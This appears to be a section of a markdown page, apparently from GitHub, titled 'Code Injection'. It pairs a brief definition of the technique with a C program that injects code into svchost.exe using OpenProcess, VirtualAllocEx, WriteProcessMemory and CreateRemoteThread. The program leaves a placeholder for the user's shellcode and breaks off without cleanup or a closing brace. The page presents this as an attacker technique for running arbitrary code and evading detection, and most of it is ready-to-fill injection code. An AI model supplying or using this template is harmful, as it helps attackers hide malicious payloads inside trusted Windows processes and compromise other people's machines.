 
### Code Injection

code_inject.exe svchost.exe

```
Injecting malicious code into svchost
```


Code injection is a technique where an attacker injects malicious code into a running process. This can be done for various purposes, such as executing arbitrary code with the privileges of the target process, evading detection, or bypassing security mechanisms.

```
#include <windows.h>
#include <stdio.h>

int main() {
    DWORD processID;
    HANDLE hProcess;
    LPVOID remoteBuffer;
    char code[] = {
        // ... Your shellcode goes here ...
    };

    // Assuming you've already obtained the PID of svchost.exe
    printf("Enter the PID of svchost.exe: ");
    scanf("%d", &processID);

    // Open the target process
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    if (!hProcess) {
        printf("Failed to open target process.\n");
        return 1;
    }

    // Allocate memory in the target process
    remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!remoteBuffer) {
        printf("Failed to allocate memory in target process.\n");
        CloseHandle(hProcess);
        return 1;
    }

    // Write the code into the target process
    if (!WriteProcessMemory(hProcess, remoteBuffer, code, sizeof(code), NULL)) {
        printf("Failed to write to target process memory.\n");
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Create a remote thread to execute the code
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (!hThread) {
        printf("Failed to create remote thread in target process.\n");
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hThread, INFINITE);
```